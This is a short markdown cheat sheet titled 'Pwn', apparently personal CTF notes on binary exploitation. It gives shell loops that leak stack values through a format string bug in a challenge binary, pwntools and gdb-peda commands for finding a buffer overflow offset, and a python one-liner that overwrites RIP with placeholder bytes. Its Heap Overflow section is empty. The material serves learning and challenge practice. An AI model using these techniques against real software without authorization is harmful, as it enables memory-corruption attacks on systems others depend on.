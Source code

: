 ```yaml
---
title: Pwn
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: ""
  description: ""
  canonical: ""
  robots: ""
  noindex: false
---
```

## Format string

Leaking address:

```sh
for i in $(seq 1 20); do ./ch5 %$i\$x;printf "\n";done
```

Show the content : 
```sh
for i in $(seq 1 20); do ./ch5 %$i\$x |rax2 -s |tr -cd "[:print:]" |rev;printf "\n";done
```


## Buffer Overflow 

Find the Offset :

```sh
pwn cyclic 150
pwn cyclic -l naafoaafp #bytes

gdb-peda$ pattern_create 200
gdb-peda$ pattern_offset A7AAMAAiA
```

`In 32 bits take the bytes that overflowed RIP ` 
`In 64 bits Grab the first P bytes of RSP`

Overflow RIP (64bits) :

```sh
python3 -c "print('\x41'*280 + '\x41\x41\x41\x41\x41\x41\x00\x00')" |tr -d "\n" > in.bin
gdb-peda$ r < in.bin
```

##  Heap Overflow

